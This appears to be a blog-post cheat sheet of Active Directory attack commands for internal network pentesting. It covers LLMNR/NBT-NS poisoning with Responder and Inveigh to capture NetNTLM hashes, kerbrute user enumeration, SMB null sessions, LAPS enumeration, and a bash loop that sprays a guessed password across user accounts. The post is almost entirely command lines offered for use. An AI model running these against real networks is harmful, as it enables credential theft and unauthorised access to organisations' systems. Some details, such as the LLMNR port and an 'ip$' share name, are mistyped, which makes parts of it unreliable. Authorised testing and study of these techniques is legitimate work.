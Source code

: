 ```yaml
---
layout: post
title: Commands & Hacks - Enumeration Tricks
toc: true
subtitle: Linux
comments: false
---
```


<b>Enumeration Tricks:</b> <br>

TCPdump:
```
tcpdump -i <interface>
```

Responder for DNS requests to identify unique hosts

Responder for LLMNR over UDP 5535 OR NBT-NS over UDP 137 to obtain NetNTLM Hash
```
responder -I <interface> -A
```

Fping Active Checking a Subnet:
```
fping -asgq 172.11.5.0/23
```
Enumerate hosts:
```
netdiscover -r <subnet> | awk '{print $1}'
```

Enumerate AD Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
Using Inveigh for LLMNR/NBT-NS request poisoning
```
Import-Module .\inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
With valid domain credentials, Using CrackMapExec to obtain the password policy
```
crackmapexec smb 172.10.5.5 -u <user> -p <password> --pass-pol
```
Establishing a null session from windows
```
net use \\DC01\ipc$ "" /u:""
```
View windows account errors:
```
net use \\DC01\ip$ "" /u:guest
```
Internal Password Spraying through Linux:
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <dc> | grep Authority; done
```

Microsoft LAPS Enumeration:
```
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
Get-LAPSComputers
```
If SMB Null sessions, use rpcclient to enumerate AD:
```
rpcclient -U "" -N <dc>
```
